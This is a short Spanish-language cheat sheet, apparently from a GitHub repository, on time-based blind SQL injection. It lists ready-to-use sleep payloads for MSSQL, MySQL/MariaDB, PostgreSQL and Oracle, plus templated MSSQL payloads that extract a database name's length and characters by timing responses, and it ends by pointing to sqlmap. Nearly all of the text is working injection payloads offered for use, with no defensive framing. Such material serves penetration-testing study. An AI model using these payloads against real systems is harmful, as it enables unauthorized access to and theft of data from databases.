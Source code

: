 ### Info

Aplicamos lógica de tiempo en SQL para ver si se inyecta y es validada analizando el tiempo que tardó la response.

### PAYLOADS

| DB   | payload |
|----------|------|
| MSSQL     | '; IF 1=1 WAITFOR DELAY '0:0:10'--  |
| MySQL/MariaDB    | AND (SELECT SLEEP(10) FROM dual WHERE database() LIKE '%')  |
| PostgreSQL    | \|\| (SELECT 1 FROM PG_SLEEP(10))   |
| Oracle    | AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('RaNdStR',10)  |


### Extraer el length del nombre de una db

    <dato>'; IF (LEN(db_name()))=<num> WAITFOR DELAY '0:0:10'-- 

### Extraer el nombre de una DB
Si es en cookie, quitar el ";"

    <dato>'; IF (select substring(db_name(),<index>,1))='<letra>' WAITFOR DELAY '0:0:10'-- 




## Apéndice:
SQLMAP tiene todas las respuestas xD
